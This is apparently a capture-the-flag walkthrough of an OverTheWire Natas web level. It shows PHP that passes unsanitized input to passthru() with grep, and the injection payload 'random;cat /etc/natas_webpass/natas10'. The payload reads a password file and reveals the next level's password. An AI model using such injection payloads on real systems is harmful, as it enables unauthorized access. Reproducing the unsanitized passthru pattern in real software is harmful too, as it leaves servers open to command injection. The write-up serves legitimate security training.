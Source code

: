 This time we are given an input field with instructions "Find words containing", along with an (empty) output field at the bottom. Let's try some dummy input:

**`Find words containing: random`**  
```
Output:

random
randomly
randomness
randomness's
```

We are also given a link to the sourcecode again, so let's take a look at a snippet of that:

```
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>
```

Upon closer examination of the `passthru()` function, it essentially takes our input, assigns that to the value of a variable `$key`, and then references `$key` in a command that searches through a file `dictionary.txt` using `grep`. We've played around with command injection vulnerabilities before in Leviathan; essentially, we can trick `passthru()` into accepting our input, which has been manipulated to include a bash command, forcing it to run whatever bash command we append to our input. Given our knowledge of where the passwords are stored:

**`Find words containing: random;cat /etc/natas_webpass/natas10`**  
```
Output:

D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE

African
Africans
Allah
Allah's
American
...
...
```
